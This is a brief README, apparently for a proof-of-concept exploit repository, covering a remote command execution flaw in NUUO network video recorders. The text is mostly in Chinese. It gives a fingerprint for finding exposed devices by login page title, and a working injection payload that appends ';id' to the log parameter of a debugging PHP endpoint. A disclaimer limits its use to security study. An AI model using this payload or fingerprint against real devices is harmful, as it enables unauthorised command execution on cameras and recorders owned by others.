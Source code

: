 # NUUO_RCE_POC
NUUO摄像头远程命令执行漏洞验证脚本
# 指纹信息
title="Network Video Recorder Login"
# POC
URL + /__debugging_center_utils___.php?log=;id


文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！！！！！
